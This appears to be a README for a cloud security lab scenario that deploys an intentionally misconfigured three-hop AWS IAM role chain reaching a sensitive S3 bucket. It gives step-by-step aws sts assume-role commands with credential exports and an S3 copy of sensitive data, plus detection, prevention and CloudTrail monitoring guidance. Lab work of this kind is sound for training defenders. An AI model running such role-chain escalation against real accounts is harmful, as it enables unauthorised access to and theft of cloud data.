

# role-chain-to-s3

* **Category:** Privilege Escalation
* **Sub-Category:** principal-access
* **Path Type:** multi-hop
* **Target:** to-bucket
* **Environments:** prod
* **Cost Estimate:** $0/mo
* **Technique:** Three-hop role assumption chain to reach S3 bucket access
* **Terraform Variable:** `enable_single_account_privesc_multi_hop_to_bucket_role_chain_to_s3`
* **Schema Version:** 1.0.0
* **Attack Path:** starting_user → (AssumeRole) → role_a → (AssumeRole) → role_b → (AssumeRole) → role_c → bucket access
* **Attack Principals:** `arn:aws:iam::{account_id}:user/pl-pathfinding-starting-user-prod`; `arn:aws:iam::{account_id}:role/pl-prod-role-a`; `arn:aws:iam::{account_id}:role/pl-prod-role-b`; `arn:aws:iam::{account_id}:role/pl-prod-role-c-bucket`; `arn:aws:s3:::pl-sensitive-data-{account_id}`
* **Required Permissions:** `sts:AssumeRole` on `arn:aws:iam::*:role/*`
* **Helpful Permissions:** `iam:ListRoles` (Discover available roles in the chain); `iam:GetRole` (View role trust policies and permissions); `s3:ListBucket` (Verify bucket access after chain)
* **MITRE Tactics:** TA0004 - Privilege Escalation, TA0008 - Lateral Movement, TA0009 - Collection
* **MITRE Techniques:** T1078.004 - Valid Accounts: Cloud Accounts, T1530 - Data from Cloud Storage Object

## Attack Overview

This module demonstrates a simple 3-hop role assumption chain where each role can assume the next role in the chain, ultimately granting access to an S3 bucket. The chain also includes an IAM user that can directly assume the intermediate role.

A 3-hop role assumption chain in the production environment with an S3 bucket destination. An attacker starting from a user with only `sts:AssumeRole` permission can traverse three sequential role assumptions to reach a role that has full S3 access to the sensitive destination bucket.

This configuration is dangerous because the trust relationships between roles are individually innocuous — each role only trusts the one before it. However, when chained together, they form a complete privilege escalation path that is difficult to detect without analyzing the full transitive trust graph. CSPM tools that only analyze individual roles in isolation will miss this path entirely.

Role chains like this appear in real environments when IAM roles are created incrementally over time by different teams, or when roles are set up for cross-service delegation and the cumulative effect of chained trust policies is never reviewed holistically.

### MITRE ATT&CK Mapping

- **Tactics**: TA0004 - Privilege Escalation, TA0008 - Lateral Movement, TA0009 - Collection
- **Techniques**: T1078.004 - Valid Accounts: Cloud Accounts, T1530 - Data from Cloud Storage Object

### Principals in the attack path

- `arn:aws:iam::{PROD_ACCOUNT}:user/pl-pathfinding-starting-user-prod` — Starting user with minimal permissions; entry point for the attack chain
- `arn:aws:iam::{PROD_ACCOUNT}:role/pl-prod-initial-role` — First hop; can be assumed by any user in the prod account with `sts:AssumeRole`
- `arn:aws:iam::{PROD_ACCOUNT}:role/pl-prod-intermediate-role` — Second hop; trusted by the initial role and by the chain IAM user
- `arn:aws:iam::{PROD_ACCOUNT}:role/pl-prod-s3-access-role` — Third hop; trusted by the intermediate role; has full S3 access to the destination bucket
- `arn:aws:s3:::pl-prod-role-chain-destination-{PROD_ACCOUNT}` — Target S3 bucket accessible by the final role

### Attack Path Diagram



### Attack Steps

1. **Initial Access** — Begin as `pl-pathfinding-starting-user-prod` with minimal permissions in the prod account
2. **Hop 1 - Assume Initial Role** — Call `sts:AssumeRole` to assume `pl-prod-initial-role`; this role trusts any user in the prod account with the `sts:AssumeRole` permission
3. **Hop 2 - Assume Intermediate Role** — Using the initial role's credentials, call `sts:AssumeRole` to assume `pl-prod-intermediate-role`; the intermediate role's trust policy allows the initial role to assume it
4. **Hop 3 - Assume S3 Access Role** — Using the intermediate role's credentials, call `sts:AssumeRole` to assume `pl-prod-s3-access-role`; this role has `s3:GetObject`, `s3:PutObject`, `s3:DeleteObject`, `s3:ListBucket`, and other permissions on the destination bucket
5. **Verification** — List the contents of `pl-prod-role-chain-destination-{account-id}` to confirm full S3 read/write access has been achieved

### Scenario specific resources created

| ARN | Purpose |
|-----|---------|
| `arn:aws:iam::{PROD_ACCOUNT}:user/pl-prod-role-chain-user` | IAM user that can directly assume the intermediate role (alternate entry point) |
| `arn:aws:iam::{PROD_ACCOUNT}:role/pl-prod-initial-role` | First-hop role; trusted by all prod account users with `sts:AssumeRole` |
| `arn:aws:iam::{PROD_ACCOUNT}:role/pl-prod-intermediate-role` | Second-hop role; trusted by the initial role and the chain user |
| `arn:aws:iam::{PROD_ACCOUNT}:role/pl-prod-s3-access-role` | Third-hop role; holds full S3 access to the destination bucket |
| `arn:aws:s3:::pl-prod-role-chain-destination-{PROD_ACCOUNT}` | Destination S3 bucket with sensitive data; accessible only via the full role chain |

## Attack Lab

### Prerequisites

1. Install the `plabs` CLI:
   ```bash
   brew install pathfinding-labs/tap/plabs
   ```
2. Configure your AWS profiles in `~/.plabs/plabs.yaml` (or run `plabs init` if you haven't already)

### Deploy with plabs non-interactive

```bash
plabs enable enable_single_account_privesc_multi_hop_to_bucket_role_chain_to_s3
plabs apply
```

### Deploy with plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `space` to enable it
4. Press `d` to deploy

### Executing the automated demo_attack script

The script will:
1. Read starting user credentials from Terraform outputs
2. Assume `pl-prod-initial-role` as the first hop
3. Use the initial role credentials to assume `pl-prod-intermediate-role` as the second hop
4. Use the intermediate role credentials to assume `pl-prod-s3-access-role` as the third hop
5. List and access the contents of the destination S3 bucket to confirm full access

#### Resources created by attack script

- Temporary STS session credentials for each hop (in-memory only; not persisted)

#### With plabs non-interactive

```bash
plabs demo --list
plabs demo role-chain-to-s3
```

#### With plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `r` to run the demo script

### Executing the attack manually

#### Chain 1: Starting User → Initial Role → Intermediate Role → S3 Access Role → S3 Bucket

**Step 1: Assume the initial role**

```bash
# Using the starting user credentials from Terraform outputs
INITIAL_CREDS=$(aws sts assume-role \
  --role-arn "arn:aws:iam::{account_id}:role/pl-prod-initial-role" \
  --role-session-name "hop1" \
  --output json)

export AWS_ACCESS_KEY_ID=$(echo $INITIAL_CREDS | jq -r '.Credentials.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $INITIAL_CREDS | jq -r '.Credentials.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $INITIAL_CREDS | jq -r '.Credentials.SessionToken')

aws sts get-caller-identity
```

**Step 2: Assume the intermediate role**

```bash
INTERMEDIATE_CREDS=$(aws sts assume-role \
  --role-arn "arn:aws:iam::{account_id}:role/pl-prod-intermediate-role" \
  --role-session-name "hop2" \
  --output json)

export AWS_ACCESS_KEY_ID=$(echo $INTERMEDIATE_CREDS | jq -r '.Credentials.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $INTERMEDIATE_CREDS | jq -r '.Credentials.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $INTERMEDIATE_CREDS | jq -r '.Credentials.SessionToken')

aws sts get-caller-identity
```

**Step 3: Assume the S3 access role**

```bash
S3_CREDS=$(aws sts assume-role \
  --role-arn "arn:aws:iam::{account_id}:role/pl-prod-s3-access-role" \
  --role-session-name "hop3" \
  --output json)

export AWS_ACCESS_KEY_ID=$(echo $S3_CREDS | jq -r '.Credentials.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $S3_CREDS | jq -r '.Credentials.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $S3_CREDS | jq -r '.Credentials.SessionToken')

aws sts get-caller-identity
```

**Step 4: Access the S3 bucket**

```bash
# Verify bucket access
aws s3 ls s3://pl-prod-role-chain-destination-{account_id}/
aws s3 cp s3://pl-prod-role-chain-destination-{account_id}/sensitive-data.txt .
```

#### Chain 2: IAM User → Intermediate Role → S3 Access Role → S3 Bucket

The chain user `pl-prod-role-chain-user` can skip the first hop and assume `pl-prod-intermediate-role` directly:

```bash
# Configure credentials for pl-prod-role-chain-user, then:
INTERMEDIATE_CREDS=$(aws sts assume-role \
  --role-arn "arn:aws:iam::{account_id}:role/pl-prod-intermediate-role" \
  --role-session-name "hop1-chain2" \
  --output json)

# Continue from Step 3 above
```

### Cleanup

#### With plabs non-interactive

```bash
plabs cleanup --list
plabs cleanup role-chain-to-s3
```

#### With plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `c` to run the cleanup script

### Teardown with plabs non-interactive

```bash
plabs disable enable_single_account_privesc_multi_hop_to_bucket_role_chain_to_s3
plabs apply
```

### Teardown with plabs tui

1. Launch the TUI: `plabs`
2. Navigate to this scenario in the scenarios list
3. Press `space` to disable it
4. Press `D` to destroy

## Detecting Misconfiguration (CSPM)

### What CSPM tools should detect

- IAM role (`pl-prod-initial-role`) trusts the entire prod account (`sts:AssumeRole` for `arn:aws:iam::{account_id}:root` or all users); any principal in the account can begin the chain
- Transitive role assumption chain of depth 3 leading to S3 data access; CSPM tools performing multi-hop graph analysis should flag this as a privilege escalation path to sensitive data
- `pl-prod-s3-access-role` has overly broad S3 permissions (`s3:GetObject`, `s3:PutObject`, `s3:DeleteObject`, `s3:ListBucket`) on the sensitive bucket and is reachable transitively from low-privilege starting principals
- The intermediate role (`pl-prod-intermediate-role`) is trusted by both the initial role and by a specific IAM user, creating two distinct paths to the same sensitive resource — increasing blast radius

### Prevention recommendations

- Apply the principle of least privilege to role trust policies; avoid trusting the entire account (`arn:aws:iam::{account_id}:root`) unless strictly necessary
- Restrict `sts:AssumeRole` with IAM conditions (e.g., `aws:PrincipalTag`, `sts:ExternalId`, or `aws:SourceAccount`) to limit which principals can initiate role chains
- Perform transitive graph analysis on role trust policies to detect multi-hop escalation paths that are invisible when evaluating roles individually
- Limit S3 access permissions on roles that are reachable via chained assumptions; prefer scoped-down resource-based policies on the bucket itself
- Use AWS IAM Access Analyzer to generate access previews and detect overly permissive cross-principal trust relationships
- Regularly audit role trust policies, especially for roles that grant access to sensitive S3 buckets, to ensure no unintended trust chains have accumulated over time

## Detection Abuse (CloudSIEM)

### CloudTrail events to monitor

- `STS: AssumeRole` — Role assumption recorded; three sequential `AssumeRole` calls from the same originating identity within a short time window is a strong indicator of role chain traversal
- `S3: GetObject` — Object retrieved from the sensitive bucket; especially suspicious when the requesting principal is a role assumed via a chain of `AssumeRole` calls
- `S3: ListBucket` — Bucket contents listed; baseline recon step after gaining S3 access via a role chain
- `STS: GetCallerIdentity` — Identity verification call; commonly used by attackers to confirm which role they currently hold at each hop

### Detonation logs

_Detonation log integration (Stratus Red Team / Grimoire) is planned for a future release._
